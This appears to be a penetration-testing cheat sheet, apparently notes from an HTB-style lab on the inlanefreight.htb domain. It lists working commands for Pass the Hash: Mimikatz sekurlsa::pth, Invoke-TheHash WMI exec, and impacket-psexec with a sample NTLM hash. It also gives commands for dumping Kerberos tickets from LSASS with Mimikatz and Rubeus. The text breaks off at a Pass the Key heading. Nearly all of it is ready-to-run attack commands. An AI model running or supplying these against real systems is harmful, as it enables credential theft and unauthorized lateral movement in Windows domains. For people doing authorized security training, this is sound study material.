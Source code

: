 
#### Pass the Hash from Windows Using Mimikatz:

```cmd
 mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<hash> or  /NTLM: <hash> /domain:inlanefreight.htb /run:cmd.exe" exit
```

#### Invoke-TheHash with WMI

  Pass the Hash (PtH)

```powershell-session
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash <HASH>
```

## Pass the Hash with Impacket (Linux)

```shell 
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

# Pass the ticket from wins

## Harvesting Kerberos Tickets from Windows

- On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process

- As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

#### mimikatz 

```cmd 
 sekurlsa::tickets /export
```

> The tickets that end with `$` correspond to the computer account

> users have a @ to seperate service name and domain :
> `[randomvalue]-username@service-domain.local.kirbi`.


#### Rubeus - Export Tickets

```cmd
Rubeus.exe dump /nowrap
```

>**Note:** To collect all tickets we need to execute Mimikatz or rubeus as an administrator.

## Pass the Key or OverPass the Hash

